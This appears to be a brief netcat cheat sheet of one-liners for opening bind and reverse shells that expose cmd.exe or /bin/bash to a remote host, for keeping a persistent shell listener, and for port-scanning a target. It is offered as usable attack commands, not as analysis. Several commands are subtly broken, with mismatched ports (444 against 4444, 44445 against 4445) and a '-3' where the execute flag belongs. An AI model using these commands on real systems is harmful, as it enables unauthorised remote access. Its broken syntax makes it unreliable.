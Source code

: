 # Netcat Usage

#### Bind Shell w/ cmd shell

```bash
nc -nlvp 444 -e cmd.exe
nc -nv <target w/ listener> 4444 
```

#### Reverse Shell w/ cmd shell to listening host

```bash
nc -nlvp 4444
nc -nv <target w/ listener> 4444 -3 /bin/bash
```

#### Reverse shell w/ persistance

```bash
nc -nLvp 44445 -e cmd.exe
nc -nv <target w/ listener> 4445
```

#### Receive return packages on a different port

```bash
nc -nLvp 44445 -e cmd.exe
nc -nv -p 4849 <target w/ listener> 4445
```

#### Netcat portscan
```bash
nc -n -v -z -w1 <target_ip> 100-250
```
